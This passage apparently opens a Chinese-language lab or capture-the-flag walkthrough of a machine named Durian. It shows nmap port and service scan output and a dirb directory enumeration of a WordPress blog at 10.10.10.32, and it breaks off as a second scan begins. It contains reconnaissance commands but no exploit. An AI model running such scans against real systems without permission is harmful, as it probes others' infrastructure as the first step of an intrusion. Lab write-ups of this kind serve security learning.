






## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p22,8000,8088 10.10.10.32
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-12 06:54 EDT
Nmap scan report for 10.10.10.32
Host is up (0.00051s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 28:1c:64:fa:9c:c3:d2:d4:bb:76:3d:3b:10:e2:b1:25 (RSA)
|   256 da:b2:e1:7f:7c:1b:58:cf:fd:4f:74:e9:23:6d:51:d7 (ECDSA)
|_  256 41:e1:0c:2b:d4:26:e8:d3:71:bb:9d:f9:61:56:63:c0 (ED25519)
8000/tcp open  http       nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Durian
8088/tcp open  radan-http LiteSpeed
|_http-server-header: LiteSpeed
|_http-title: Durian
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.0 200 OK
|     etag: "2fd-5f56ea13-40590;;;"
|     last-modified: Tue, 08 Sep 2020 02:18:59 GMT
|     content-type: text/html
|     content-length: 765
|     accept-ranges: bytes
|     date: Tue, 12 Mar 2024 10:54:27 GMT
|     server: LiteSpeed
|     connection: close
|     <html>
|     <body bgcolor="white">
|     <head>
|     <title>Durian</title>
|     <meta name="description" content="We Are Still Alive!">
|     <meta name="keywords" content="Hacked by Ind_C0d3r">
|     <meta name="robots" content="index, follow">
|     <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
|     <meta name="language" content="English">
|     </head>
|     <link href="https://fonts.googleapis.com/css?family=Righteous|Saira+Stencil+One&display=swap" rel="stylesheet">
|     <style type="text/css">
|     @font-face {
|     font-family: 'Righteous', cursive;
|     font-family: 'Saira Stencil One', cursive;
|     </style>
|     <center><br><br>
|     
|     <html style="height:100%">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
|     <title> 400 Bad Request
|     </title></head>
|     <body style="color: #444; margin:0;font: normal 14px/20px Arial, Helvetica, sans-serif; height:100%; background-color: #fff;">
|     <div style="height:auto; min-height:100%; "> <div style="text-align: center; width:800px; margin-left: -400px; position:absolute; top: 30%; left:50%;">
|     style="margin:0; font-size:150px; line-height:150px; font-weight:bold;">400</h1>
|     style="margin-top:20px;font-size: 30px;">Bad Request
|     </h2>
|     <p>It is not a valid request!</p>
|_    </div></div><div style="color:#f0f0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8088-TCP:V=7.94SVN%I=7%D=3/12%Time=65F03463%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,3EC,"HTTP/1\.0\x20200\x20OK\r\netag:\x20\"2fd-5f56ea13-4059
SF:0;;;\"\r\nlast-modified:\x20Tue,\x2008\x20Sep\x202020\x2002:18:59\x20GM
SF:T\r\ncontent-type:\x20text/html\r\ncontent-length:\x20765\r\naccept-ran
SF:ges:\x20bytes\r\ndate:\x20Tue,\x2012\x20Mar\x202024\x2010:54:27\x20GMT\
SF:r\nserver:\x20LiteSpeed\r\nconnection:\x20close\r\n\r\n<html>\n<body\x2
SF:0bgcolor=\"white\">\n<head>\n<title>Durian</title>\n<meta\x20name=\"des
SF:cription\"\x20content=\"We\x20Are\x20Still\x20Alive!\">\n<meta\x20name=
SF:\"keywords\"\x20content=\"Hacked\x20by\x20Ind_C0d3r\">\n<meta\x20name=\
SF:"robots\"\x20content=\"index,\x20follow\">\n<meta\x20http-equiv=\"Conte
SF:nt-Type\"\x20content=\"text/html;\x20charset=utf-8\">\n<meta\x20name=\"
SF:language\"\x20content=\"English\">\n</head>\n<link\x20href=\"https://fo
SF:nts\.googleapis\.com/css\?family=Righteous\|Saira\+Stencil\+One&display
SF:=swap\"\x20rel=\"stylesheet\">\n<style\x20type=\"text/css\">\n@font-fac
SF:e\x20{\n\tfont-family:\x20'Righteous',\x20cursive;\n\tfont-family:\x20'
SF:Saira\x20Stencil\x20One',\x20cursive;\n}\n</style>\n<center><br><br>\n<
SF:img\x20src=\"https://www\.producemarketguide\.com/sites/default/files/C
SF:ommoditi")%r(Socks5,58E,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ncontent-
SF:type:\x20text/html\r\ncache-control:\x20private,\x20no-cache,\x20max-ag
SF:e=0\r\npragma:\x20no-cache\r\ncontent-length:\x201209\r\ndate:\x20Tue,\
SF:x2012\x20Mar\x202024\x2010:54:28\x20GMT\r\nserver:\x20LiteSpeed\r\nconn
SF:ection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20style=\"height:100
SF:%\">\n<head>\n<meta\x20name=\"viewport\"\x20content=\"width=device-widt
SF:h,\x20initial-scale=1,\x20shrink-to-fit=no\">\n<title>\x20400\x20Bad\x2
SF:0Request\r\n</title></head>\n<body\x20style=\"color:\x20#444;\x20margin
SF::0;font:\x20normal\x2014px/20px\x20Arial,\x20Helvetica,\x20sans-serif;\
SF:x20height:100%;\x20background-color:\x20#fff;\">\n<div\x20style=\"heigh
SF:t:auto;\x20min-height:100%;\x20\">\x20\x20\x20\x20\x20<div\x20style=\"t
SF:ext-align:\x20center;\x20width:800px;\x20margin-left:\x20-400px;\x20pos
SF:ition:absolute;\x20top:\x2030%;\x20left:50%;\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<h1\x20style=\"margin:0;\x20font-size:150px;\x20line-height:1
SF:50px;\x20font-weight:bold;\">400</h1>\n<h2\x20style=\"margin-top:20px;f
SF:ont-size:\x2030px;\">Bad\x20Request\r\n</h2>\n<p>It\x20is\x20not\x20a\x
SF:20valid\x20request!</p>\n</div></div><div\x20style=\"color:#f0f0");
MAC Address: 00:0C:29:D6:7A:03 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.99 seconds
```

## 目录扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ dirb http://10.10.10.32:8000

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Mar 12 06:59:54 2024
URL_BASE: http://10.10.10.32:8000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.32:8000/ ----
==> DIRECTORY: http://10.10.10.32:8000/blog/                                                                                                                                              
==> DIRECTORY: http://10.10.10.32:8000/cgi-data/                                                                                                                                          
+ http://10.10.10.32:8000/index.html (CODE:200|SIZE:765)                                                                                                                                  
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/ ----
+ http://10.10.10.32:8000/blog/.htaccess (CODE:200|SIZE:471)                                                                                                                              
+ http://10.10.10.32:8000/blog/index.php (CODE:200|SIZE:405)                                                                                                                              
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-admin/                                                                                                                                     
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-content/                                                                                                                                   
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/                                                                                                                                  
+ http://10.10.10.32:8000/blog/xmlrpc.php (CODE:200|SIZE:3236)                                                                                                                            
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/cgi-data/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-admin/ ----
+ http://10.10.10.32:8000/blog/wp-admin/admin.php (CODE:200|SIZE:12133)                                                                                                                   
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-admin/css/                                                                                                                                 
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-admin/images/                                                                                                                              
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-admin/includes/                                                                                                                            
+ http://10.10.10.32:8000/blog/wp-admin/index.php (CODE:200|SIZE:6913)                                                                                                                    
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-admin/js/                                                                                                                                  
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-admin/maint/                                                                                                                               
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-admin/network/                                                                                                                             
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-admin/user/                                                                                                                                
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-content/ ----
+ http://10.10.10.32:8000/blog/wp-content/index.php (CODE:200|SIZE:28)                                                                                                                    
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-content/plugins/                                                                                                                           
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-content/themes/                                                                                                                            
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-content/uploads/                                                                                                                           
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/ ----
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/assets/                                                                                                                           
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/                                                                                                                           
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/certificates/                                                                                                                     
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/css/                                                                                                                              
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/customize/                                                                                                                        
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/fonts/                                                                                                                            
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/images/                                                                                                                           
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/                                                                                                                               
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/sitemaps/                                                                                                                         
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/widgets/                                                                                                                          
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-admin/css/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-admin/images/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-admin/includes/ ----
+ http://10.10.10.32:8000/blog/wp-admin/includes/admin.php (CODE:200|SIZE:3556)                                                                                                           
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-admin/js/ ----
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-admin/js/widgets/                                                                                                                          
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-admin/maint/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-admin/network/ ----
+ http://10.10.10.32:8000/blog/wp-admin/network/admin.php (CODE:200|SIZE:1024)                                                                                                            
+ http://10.10.10.32:8000/blog/wp-admin/network/index.php (CODE:200|SIZE:2860)                                                                                                            
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-admin/user/ ----
+ http://10.10.10.32:8000/blog/wp-admin/user/admin.php (CODE:200|SIZE:865)                                                                                                                
+ http://10.10.10.32:8000/blog/wp-admin/user/index.php (CODE:200|SIZE:251)                                                                                                                
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-content/plugins/ ----
+ http://10.10.10.32:8000/blog/wp-content/plugins/index.php (CODE:200|SIZE:28)                                                                                                            
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-content/themes/ ----
+ http://10.10.10.32:8000/blog/wp-content/themes/index.php (CODE:200|SIZE:28)                                                                                                             
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-content/uploads/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/assets/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/ ----
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/archives/                                                                                                                  
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/audio/                                                                                                                     
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/block/                                                                                                                     
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/button/                                                                                                                    
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/buttons/                                                                                                                   
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/calendar/                                                                                                                  
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/categories/                                                                                                                
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/classic/                                                                                                                   
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/code/                                                                                                                      
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/columns/                                                                                                                   
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/file/                                                                                                                      
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/gallery/                                                                                                                   
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/group/                                                                                                                     
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/html/                                                                                                                      
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/image/                                                                                                                     
+ http://10.10.10.32:8000/blog/wp-includes/blocks/index.php (CODE:200|SIZE:1519)                                                                                                          
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/list/                                                                                                                      
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/missing/                                                                                                                   
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/more/                                                                                                                      
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/quote/                                                                                                                     
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/rss/                                                                                                                       
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/search/                                                                                                                    
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/spacer/                                                                                                                    
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/table/                                                                                                                     
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/blocks/video/                                                                                                                     
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/certificates/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/css/ ----
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/css/dist/                                                                                                                         
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/customize/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/fonts/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/images/ ----
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/images/media/                                                                                                                     
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/images/smilies/                                                                                                                   
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/ ----
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/dist/                                                                                                                          
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/jquery/                                                                                                                        
+ http://10.10.10.32:8000/blog/wp-includes/js/swfobject.js (CODE:200|SIZE:10231)                                                                                                          
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/thickbox/                                                                                                                      
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/                                                                                                                       
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/sitemaps/ ----
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/sitemaps/providers/                                                                                                               
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/widgets/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-admin/js/widgets/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/archives/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/audio/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/block/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/button/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/buttons/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/calendar/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/categories/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/classic/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/code/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/columns/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/file/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/gallery/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/group/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/html/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/image/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/list/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/missing/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/more/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/quote/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/rss/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/search/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/spacer/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/table/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/blocks/video/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/css/dist/ ----
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/css/dist/components/                                                                                                              
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/css/dist/editor/                                                                                                                  
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/images/media/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/images/smilies/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/dist/ ----
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/dist/vendor/                                                                                                                   
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/jquery/ ----
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/jquery/ui/                                                                                                                     
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/thickbox/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/ ----
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/langs/                                                                                                                 
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/plugins/                                                                                                               
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/skins/                                                                                                                 
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/themes/                                                                                                                
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/utils/                                                                                                                 
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/sitemaps/providers/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/css/dist/components/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/css/dist/editor/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/dist/vendor/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/jquery/ui/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/langs/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/plugins/ ----
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/plugins/hr/                                                                                                            
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/plugins/image/                                                                                                         
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/plugins/link/                                                                                                          
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/plugins/lists/                                                                                                         
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/plugins/media/                                                                                                         
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/plugins/wordpress/                                                                                                     
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/skins/ ----
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/skins/wordpress/                                                                                                       
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/themes/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/utils/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/plugins/hr/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/plugins/image/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/plugins/link/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/plugins/lists/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/plugins/media/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/plugins/wordpress/ ----
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/skins/wordpress/ ----
==> DIRECTORY: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/skins/wordpress/images/                                                                                                
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.32:8000/blog/wp-includes/js/tinymce/skins/wordpress/images/ ----
                                                                               s/images/zt                                                                                                
-----------------
END_TIME: Tue Mar 12 07:07:22 2024
DOWNLOADED: 350512 - FOUND: 16
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ dirb http://10.10.10.32:8088            

-----------------
DIRB v2.22    
By The Dark Raver
